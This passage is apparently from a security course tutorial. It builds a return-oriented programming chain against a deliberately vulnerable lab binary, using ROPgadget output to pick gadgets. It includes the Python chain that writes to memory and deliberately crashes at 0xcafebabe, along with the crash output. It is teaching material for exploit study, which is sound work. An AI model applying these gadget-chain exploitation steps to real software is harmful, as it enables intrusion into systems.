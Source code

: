 In the list, indicated with an "\<---", you see the `pop eax;ret` we
found earlier. Now we only need to find `mov [edx],eax` instruction:

``` example
user@si485H-base:demo$ ./ROPgadget.py --binary ./vulnerable | grep ": mov dword ptr \[edx\]"
0x080e62a9 : mov dword ptr [edx], cs ; push cs ; adc al, 0x41 ; ret
0x080e3b65 : mov dword ptr [edx], cs ; push cs ; adc al, 0x43 ; ret
0x080e345b : mov dword ptr [edx], cs ; push cs ; or al, 0x41 ; ret
0x08066fc4 : mov dword ptr [edx], eax ; lea eax, dword ptr [edx + 1] ; pop edi ; ret
0x08067104 : mov dword ptr [edx], eax ; lea eax, dword ptr [edx + 1] ; ret
0x08066ef2 : mov dword ptr [edx], eax ; lea eax, dword ptr [edx + 3] ; pop edi ; ret
0x08067122 : mov dword ptr [edx], eax ; lea eax, dword ptr [edx + 3] ; ret
0x080656a2 : mov dword ptr [edx], eax ; mov eax, edi ; pop edi ; ret
0x08065894 : mov dword ptr [edx], eax ; mov eax, edx ; ret
0x080a713b : mov dword ptr [edx], eax ; mov ebx, dword ptr [ebp + 0xfffffffc] ; leave ; ret
0x0808fc26 : mov dword ptr [edx], eax ; pop ebx ; ret <-- but this one works fine
0x0809a70d : mov dword ptr [edx], eax ; ret  <--- One from before
0x0807457c : mov dword ptr [edx], ecx ; add esp, 0x6c ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0805ee34 : mov dword ptr [edx], ecx ; mov eax, dword ptr [esp + 4] ; ret
0x080e4871 : mov dword ptr [edx], ecx ; push cs ; adc al, 0x43 ; ret
0x08054992 : mov dword ptr [edx], ecx ; ret
```

As you can see, we found the previous one from before with the 0x09 tab
in it, but we can also find one that does the same, but with a `pop ebx`
in the middle without a 0x09 in the address. So now we have the
following, where we use 0xdeadbeef to pop into ebx

``` example
p += pack('<I', 0x0806e97a) #pop edx; ret
p += pack('<I', 0x080ea060) #address to write to
p += pack('<I', 0x080bb746) #pop eax; reat;
p += pack('<I', 0x41414141) #'AAAA'
p += pack('<I', 0x0808fc26) # mov [edx],eax;pop ebx;ret
p += pack('<I', 0xdeadbeef) #  filler for pop ebx
p += pack('<I', 0x08054202) # xor eax,eax
p += pack('<I', 0x0806e97a) #pop edx; ret
p += pack('<I', 0x080ea061) #address to write to
p += pack('<I', 0x0808fc26) # mov [edx],eax;pop ebx;ret
p += pack('<I', 0xdeadbeef) #  filler for pop ebx
p += pack('<I', 0xcafebabe) #  will segfault here
```

And if we run this, we see we segfault on cafebabe, hurray!

``` example
user@si485H-base:demo$ ./vulnerable `python rop_chain.py`
Buf: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAz`F?
                                                                                                                        AAAAﾭ?zaﾭ޾???
Segmentation fault (core dumped)
user@si485H-base:demo$ dmesg | tail -1
[1560517.099344] vulnerable[10793]: segfault at cafebabe ip cafebabe sp bffff64c error 15
```
